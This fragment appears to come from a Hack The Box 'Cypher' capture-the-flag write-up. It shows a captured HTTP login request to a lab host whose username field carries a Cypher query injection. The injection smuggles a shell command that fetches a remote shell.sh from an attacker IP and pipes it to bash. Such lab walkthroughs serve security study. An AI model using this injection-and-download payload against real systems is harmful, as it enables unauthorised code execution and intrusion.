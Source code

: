![01.png](/assets/Images/HTB_Cypher/01.png)

Burp Request of the Above image

```bash
POST /api/auth HTTP/1.1
Host: cypher.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 184
Origin: http://cypher.htb
Connection: keep-alive
Referer: http://cypher.htb/login

{"username":"admin' return h.value as a UNION CALL custom.getUrlStatusCode(\"cypher.com;curl 10.10.xx.xx/shell.sh|bash;#\") YIELD statusCode AS a RETURN a;//","password":"Password123"}
```

![Screenshot 2025-03-02 at 2.38.19 AM.png](/assets/Images/HTB_Cypher/Screenshot_2025-03-02_at_2.38.19_AM.png)
